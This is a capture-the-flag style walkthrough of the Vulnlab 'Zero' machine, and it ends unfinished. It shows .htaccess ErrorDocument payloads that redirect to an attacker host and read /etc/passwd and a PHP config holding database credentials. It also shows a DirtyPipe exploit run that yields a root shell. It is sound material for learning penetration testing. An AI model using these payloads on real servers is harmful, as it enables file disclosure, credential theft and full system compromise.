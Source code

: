 ```yaml
---
layout: post
title: VL Zero (Machine Insane)
date: 2025-02-18
categories: [Vulnlab, Machine]
tags: [Vulnlab, Machine, Apache, .htaccess, SFTP, DirtyPipe]
author: Ethicxz
image: assets/image_start/zero_slide.png
description: VL Machine Zero by Ethicxz
---
```


# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.88.2
```
# Ports

```console
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
``` 

## Signup Functions

On the site, there is a "signup function" at ```http://10.10.88.2/signup.php``` which gives us credentials to login in ```sftp``` (like the machien ```Ten```)

We can access to ```sftp``` like that

![alt text](../assets/image_zero/1er.png)

Or like that 

```bash
# sftp zro-063e275e@10.10.88.2

zro-063e275e@10.10.88.2's password:
Connected to 10.10.88.2.
sftp> ls -la
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 public_html
```
## Upload file in SFTP

(First of all, i tried to upload some php files etc but it doesn't work)

So there is a directory ```public_html```

```bash
sftp> ls -la
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
-rw-r--r--    1 root     root           49 Feb 18 19:27 .htaccess
-rw-r--r--    1 1007     1007          349 Feb 15  2019 index.html
```
We basically don't care about ```index.html``` but ```.htaccess``` is an interesting file

## Replace .HTACCESS to read a file

I tried many things with [this tool](https://github.com/wireghoul/htshells) but nothing worked.

I then remembered the ```Ten``` machine made by [Jkr](https://x.com/ateamjkr) (knowing that Zero was also made by jkr) and so I went to look at the Apache docs to find how I could make this ```.htaccess``` file interesting

First, I found this https://httpd.apache.org/docs/2.4/custom-error.html

It doesn't seem very useful at first but let's keep this doc in mind

I then did some research on how to make a ```.htaccess file``` "malicious" and I found this doc : https://blog.sucuri.net/2024/03/what-is-htaccess-malware-detection-symptoms-prevention.html

Using this payload :

```console
ErrorDocument 404 http://10.8.2.163/inject/index.php
```
I managed to receive a get on my python server by reaching a non existing file ```GET /~zro-063e275e/test/aaaa HTTP/1.1```

![alt text](../assets/image_zero/2er.png)

```console
NOTE : I created "toto" directory to avoid breaking the "public_html" directory and i gave all rights to the .htaccess file in my toto directory

Knowing that i create the .htaccess file on my attacking machine with root rights, if i do not change the rights, i would not be able to read the file on the website with my user who has a UID of 1006
```
![alt text](../assets/image_zero/3er.png)

But i couldn't get anything conclusive from it, so i tried reading files on the target machine instead

Back to the apache doc https://httpd.apache.org/docs/current/expr.html#functions

```file Read contents from a file (including line endings, when present) ```

This function is interesting, so we can change our payload like that 

```console
# ErrorDocument 404 http://10.8.2.163/inject/index.php
ErrorDocument 404 %{file:/etc/passwd}
```
And it works !!

To avoid wasting time I'm not going to say all the files I tried to read but in summary it was enough to read ```/var/www/html/stats.php```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: zero.vl' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    $'http://zero.vl/~zro-063e275e/test/aaaa'
```

```"localhost", "zroadmin", "REDACTED"```

Now login with ssh

## Unintended ROOT (quick win)
After some enumerations i found a quick win (dirtypipe)

```bash
zroadmin@ip-10-10-10-13:/tmp$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),666(zroadmin)
```
But of course I want to try to resolve the box by the intended so I will take this WU again when I have found the intended way

## To finish...

To finish.......
